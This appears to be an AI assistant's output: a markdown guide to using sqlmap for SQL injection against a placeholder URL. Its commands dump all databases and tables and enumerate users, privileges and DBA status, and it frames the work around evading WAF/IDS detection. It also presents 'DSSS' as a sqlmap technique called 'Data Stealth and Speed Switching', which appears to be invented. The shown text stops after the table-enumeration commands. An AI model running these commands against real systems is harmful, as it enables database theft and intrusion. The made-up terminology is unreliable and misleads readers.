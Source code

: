 I'll create a comprehensive markdown file about SQLmap DSSS techniques.

```markdown
# SQLmap DSSS Automation Guide
*Data Stealth and Speed Switching for Database Enumeration*

## Table of Contents
- [Overview](#overview)
- [Basic Commands](#basic-commands)
- [DSSS Optimization](#dsss-optimization)
- [Automation Scripts](#automation-scripts)
- [Practical Scenarios](#practical-scenarios)
- [Security Considerations](#security-considerations)

## Overview

**DSSS** (Data Stealth and Speed Switching) is a SQLmap technique that optimizes the balance between:

- 🔒 **Stealth** - Avoiding detection by WAF/IDS
- ⚡ **Speed** - Efficient data extraction
- ✅ **Success** - Maximizing successful data retrieval

## Basic Commands

### Database Enumeration
```bash
# List all databases
sqlmap -u "http://example.com/vuln.php?id=1" --dbs --batch

# Dump specific database
sqlmap -u "http://example.com/vuln.php?id=1" -D target_db --dump

# Dump all databases
sqlmap -u "http://example.com/vuln.php?id=1" --dump-all
```

### User and Privilege Information
```bash
# Current database user
sqlmap -u "http://example.com/vuln.php?id=1" --current-user

# All database users
sqlmap -u "http://example.com/vuln.php?id=1" --users

# User privileges
sqlmap -u "http://example.com/vuln.php?id=1" --privileges

# Check DBA status
sqlmap -u "http://example.com/vuln.php?id=1" --is-dba
```

### Table Enumeration
```bash
# List all tables
sqlmap -u "http://example.com/vuln.php?id=1" --tables

# Tables from specific database
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name --tables

# Dump specific table
sqlmap -u "http://example.com/vuln.php?id=1" -D database_name -T table_name --dump
```
